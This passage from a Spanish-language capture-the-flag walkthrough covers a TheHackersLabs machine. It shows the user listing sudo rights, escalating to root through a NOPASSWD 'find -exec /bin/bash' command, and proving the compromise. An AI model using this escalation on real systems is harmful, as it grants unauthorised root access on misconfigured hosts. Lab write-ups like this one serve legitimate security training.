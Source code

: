 LIstando los permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User superadministrator may run the following commands on thehackerslabs-bocatacalamares:
    (ALL) NOPASSWD: /usr/bin/find
```

Nos aprovechamos de esto para ganar acceso como root
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/find . -exec /bin/bash \; -quit
```

---

## Evidencia de Compromiso
Flag de root
```bash
ls -la /root

-rw-r--r--  1 root root    13 Jan 10  2025 root.txt
```

```bash
# Captura de pantalla o output final
root@thehackerslabs-bocatacalamares:/home/superadministrator# echo -n "Hacked: "; whoami
Hacked: root
```